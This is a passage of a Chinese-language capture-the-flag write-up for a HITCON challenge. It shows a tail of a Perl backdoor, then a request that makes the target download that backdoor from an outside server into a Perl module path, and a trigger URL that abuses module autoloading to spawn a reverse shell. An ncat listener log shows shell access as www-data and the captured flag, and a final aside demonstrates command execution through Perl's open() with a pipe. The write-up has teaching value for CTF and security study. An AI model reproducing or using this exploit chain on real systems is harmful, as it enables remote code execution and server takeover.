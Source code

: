 ```perl
    print "Content-Length: " . length($global_page) . "\r
Connection: close\r
Content-Type: text\/html\r\n\r\n" . $global_page;
}
```

然后，将其部署到服务器上（反弹ip改为我们服务器的ip）。

```Html
http://10.211.55.17/index.php?filename=URI/moxiaoxi.pm&url=http://xx.xx.xx.x/backdoor.txt
```

```
└── sandbox
    └── 1924cf16182a5279a02c5ffb573daaa4
        └── URI
            └── moxiaoxi.pm

```

这样就在网站上新建了一个URI目录，目录下有moxiaoxi.pm文件，文件内容为我们的backdoor。

在服务器上监听端口，再访问`10.211.55.17/index.php?filename=xxx&url=moxiaoxi://mo-xiaoxi.github.io`就能获得一个反弹shell。这里访问`moxiaoxi://mo-xiaoxi.github.io`时，moxiaoxi是未定义模块，所以会自动搜索并加载URI中的moxiaoxi.pm 模块。

```bash
 ➜  html nc -w 1 -k -lvv 1235
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 13.115.136.15.
Ncat: Connection from 13.115.136.15:39746.
 03:10:35 up 2 days,  9:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux ip-172-31-28-110 4.4.0-1039-aws #48-Ubuntu SMP Wed Oct 11 15:15:01 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
$ ./readflag
hitcon{Perl_<3_y0u}

```

### 其他解法

参考ricterz的博客，其知识点是，另外一个命令注入，是perl的feature，在open下可以执行命令。

```bash
➜  test cat test.pl
open(FD, "whoami|");
print <FD>;
➜  test perl test.pl
moxiaoxi
➜  test
```
